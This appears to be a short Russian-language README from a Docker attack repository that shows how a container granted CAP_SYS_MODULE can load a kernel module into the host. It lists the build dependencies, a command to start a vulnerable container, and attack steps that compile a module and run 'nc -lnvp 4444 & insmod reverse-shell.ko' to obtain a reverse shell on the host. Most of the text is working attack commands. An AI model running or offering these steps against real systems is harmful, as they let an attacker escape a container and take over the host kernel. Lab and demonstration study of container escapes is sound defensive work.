 # CAP_SYS_MODULE

## Если контейнер имеет CAP_SYS_MODULE, он может загружать модули ядра на хост-системе.

Ставим зависимости в контейнер
```bash
apt install make
apt install -y vim # or any other editor
apt install -y netcat
apt install -y gcc
# Container should run with the same operating system version as the host.
# Get the kernel version by ‘uname -r’
version=$(uname -r)
apt install -y linux-headers-$version
apt install -y kmod
apt install net-tools
```

Запуск уязвимого контейнера
```bash
docker run -it --cap-add=SYS_MODULE ubuntu:latest bash
```

Атака
```bash
git clone <this repo>
cd docker-attacks/attack_4 - Kernel Module injection
make
nc -lnvp 4444 & /usr/sbin/insmod reverse-shell.ko
```